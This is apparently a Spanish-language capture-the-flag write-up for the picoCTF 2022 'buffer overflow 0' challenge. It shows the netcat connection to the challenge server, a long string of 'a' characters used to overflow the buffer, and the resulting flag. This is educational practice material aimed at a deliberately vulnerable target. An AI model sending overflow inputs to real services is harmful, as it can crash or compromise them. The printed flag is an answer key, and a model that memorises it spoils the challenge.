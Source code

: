 # buffer overflow 0

## Objetivo

Smash the stack
Let's start off simple, can you overflow the correct buffer? The program is available [here](https://artifacts.picoctf.net/c/173/vuln). You can view source [here](https://artifacts.picoctf.net/c/173/vuln.c). And connect with it using:
nc saturn.picoctf.net 51532

## Solución

```bash
hone@unidad03:~/Documentos/Materias/Seguridad_Redes_Sistemas/problemas-hacking/picoCTF/binary_explotation/2022/buffer_overflow_0$ nc saturn.picoctf.net 51532
Input:
```

```
Input: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
picoCTF{ov3rfl0ws_ar3nt_that_bad_90d2bb58}
```

Bandera: *picoCTF{ov3rfl0ws_ar3nt_that_bad_90d2bb58}*

## Referencias
